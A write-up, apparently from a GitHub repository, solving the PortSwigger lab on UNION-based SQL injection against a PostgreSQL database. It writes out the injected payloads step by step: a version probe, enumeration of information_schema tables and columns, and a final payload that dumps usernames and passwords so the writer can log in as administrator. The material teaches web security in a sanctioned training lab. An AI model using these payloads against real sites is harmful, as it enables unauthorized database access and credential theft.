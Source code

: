 # Lab: SQL injection attack, listing the database contents on non-Oracle databases

Lab-Link: <https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-non-oracle>  
Difficulty: PRACTITIONER  
Python script: [script.py](script.py)  

## Known information

- SQL injection vulnerability in product category filter
- Results are returned, common injection
- UNION based attack vector
- Goals:
  - Retrieve name of user table
  - Retrieve column information of that table
  - Extract usernames and passwords for all users
  - Login as `administrator` user

## Query

The query might be something like

```sql
SELECT * FROM someTable WHERE category = '<CATEGORY>'
```

## Steps

The first steps are identical with the labs [SQL injection UNION attack, determining the number of columns returned by the query](../SQL_injection_UNION_attack,_determining_the_number_of_columns_returned_by_the_query/README.md) and [SQL injection UNION attack, finding a column containing text](../SQL_injection_UNION_attack,_finding_a_column_containing_text/README.md) and are not repeated here.

The number of colums in this case is 2, with both being string columns.

### Find users table

The database in use here is postgres (enumerated by injection `' UNION SELECT null,version()--`), which holds the table information in the information_schema.tables-table. In the [relevant documentation](https://www.postgresql.org/docs/9.1/infoschema-tables.html) the available columns are listed. We are interested in `table_name`. So inject `' UNION SELECT table_name, table_schema from information_schema.tables--` into the parameter to form the following query:

I also select an invalid category so that only my output appears.

```sql
SELECT * FROM someTable WHERE category='X' UNION SELECT table_name, null from information_schema.tables--'`
```

![name of users table](img/found_users_table.png)

### Enumerate colums in this table

The [information_schema.columns](https://www.postgresql.org/docs/9.1/infoschema-columns.html) holds information about the colums of each table, specifically the `column_name` column. The proper string to inject is `' UNION SELECT column_name, null from information_schema.columns WHERE table_name = 'users_kcstmf'-- to form this query

```sql
SELECT * FROM someTable WHERE category='X' UNION SELECT column_name, null from information_schema.columns WHERE table_name = 'users_kcstmf'--'`
```

![username and password columns](img/username_and_password_columns.png)

### Enumerate all usernames and passwords

Now we have all information to obtain the required usernames and passwords. Inject `' UNION SELECT username_spivdg, password_dfxmeh from users_kcstmf--` to form this query:

```sql
SELECT * FROM someTable WHERE category='X' UNION SELECT username_spivdg, password_dfxmeh from users_kcstmf--'`
```

![usernames and passwords](img/username_and_passwords.png)

Now simply login to solve this excercise.

![success](img/success.png)
